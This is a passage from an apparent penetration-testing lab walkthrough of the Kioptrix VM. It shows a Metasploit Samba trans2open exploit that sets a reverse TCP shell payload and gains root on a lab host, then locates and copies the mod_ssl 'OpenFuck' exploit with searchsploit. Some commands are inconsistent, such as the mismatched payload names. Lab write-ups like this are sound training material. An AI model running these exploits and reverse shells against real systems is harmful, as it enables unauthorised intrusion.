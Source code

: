 To set our own payload, we can use the `set` command. This gives metasploit something to actually inject into memory we can access via this [buffer-overflow](cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). To see a list of all the payloads, you can start typing `set payload`, then use double tap to see all of the available options:
```bash
msf6 exploit(linux/samba/trans2open) > set payload 
set payload generic/custom
set payload generic/debug_trap
set payload generic/shell_bind_aws_ssm
set payload generic/shell_bind_tcp
set payload generic/shell_reverse_tcp
...
```
In this case, we want a payload which will execute successfully on a linux target. 
```bash
set payload linux/x86/samba/reverse_shell_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > run
*] Started reverse TCP handler on 10.0.2.4:4444 
[*] 10.0.2.5:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffbfc...
[*] Command shell session 12 opened (10.0.2.4:4444 -> 10.0.2.5:32800) at 2023-09-30 16:43:23 -0400
whoami
root # <--- output from target
```
# Gaining Root 'Manually'
Instead of using Metasploit to do everything for us, we can achieve the same results manually.
## OpenFuck
[OpenFuck](cybersecurity/vulnerabilities/openfuck.md) is another vulnerability which we found that Kioptrix is likely vulnerable to. Lets try to manually exploit Kioptrix w/ it.
### Using Searchsploit
We can get the exploit code for OpenFuck from either [Exploit-DB](https://www.exploit-db.com) or by using the [searchsploit](cybersecurity/tools/exploitation/searchsploit.md) command (since we have a library of most of the Exploit DB database on hand already downloaded).
```bash
searchsploit openfuck
 Exploit Title                                             |  Path
----------------------------------------------------------------------- --------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c'              |unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c'            | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c'            | unix/remote/764.c
----------------------------------------------------------------------- --------------
Shellcodes: No Results
```
We've got 3 versions of OpenFuck on hand. Let's use `OpenFuck.c`, which is located at `/etc/share/exploitdb/exploits/usr/remote/21671.c`. Instead of using this version, lets copy it into a new folder called `kioptrix`
```bash
mkdir kioptrix
cp /usr/share/exploitdb/exploits/unix/remote/21671.c kioptrix/21671.c
```
**BEFORE EXECUTING SOME RANDOM MALWARE ON OUR MACHINE** let's check it against the [official repo](https://gitlab.com/exploit-database/exploitdb/-/blob/main/exploits/unix/remote/21671.c?ref_type=heads) (hosted on GitLab) listed on Exploit DB. Both ExploitDB and the repo mark this code as "EDB verified", meaning they've tested in themselves.
### Running `OpenFuck.c`
If we cat the OpenFuck code, we can find some instructions at the top of the file:
```bash
/*
source: https://www.securityfocus.com/bid/5363/info
```